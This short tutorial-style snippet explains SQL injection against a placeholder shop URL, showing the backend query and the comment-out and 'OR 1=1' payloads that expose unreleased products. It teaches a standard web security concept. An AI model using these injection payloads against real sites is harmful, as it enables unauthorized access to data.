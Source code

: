 Target:
https://insecure-website.com/products?category=Gifts

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

START ATTACKING

WEB ATTACK
https://insecure-website.com/products?category=Gifts '--

QUERY
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

Display All Product

https://insecure-website.com/products?category=Gifts'+OR+1=1--'

The modified query returns all items where either the category is Gifts, or 1 is equal to 1. as
1=1 is always true, the query returns all items.


